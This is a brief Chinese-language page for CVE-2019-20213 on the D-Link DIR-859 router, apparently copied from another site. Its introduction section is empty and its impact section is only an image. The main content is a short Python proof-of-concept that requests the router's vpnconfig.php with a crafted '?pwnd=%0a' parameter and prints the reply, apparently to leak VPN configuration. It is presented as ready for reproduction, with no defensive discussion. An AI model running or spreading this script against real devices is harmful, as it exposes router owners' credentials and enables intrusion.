 # （CVE-2019–20213）D-Link DIR-859 rce

> 原文：[http://book.iwonder.run/iot/D-Link/CVE-2019–20213.html](http://book.iwonder.run/iot/D-Link/CVE-2019–20213.html)

## 一、漏洞简介

## 二、漏洞影响

![image](img/51d5279d03b7d4e6919e2012a32f4207.png)

## 三、复现过程

```
import requests
# Miguel Mendez Z.
FILES = ["vpnconfig.php"]
IP = "192.168.0.1"
PORT = "80"
headers = {'content-type': 'application/x-www-form-urlencoded'}
print "\n-----------VPN-------------\n"
url_vpn = 'http://{ip}:{port}/{file1}?pwnd=%0a'.format(ip=IP, port=PORT, file1=FILES[0])
print(requests.get(url_vpn).text) 
```

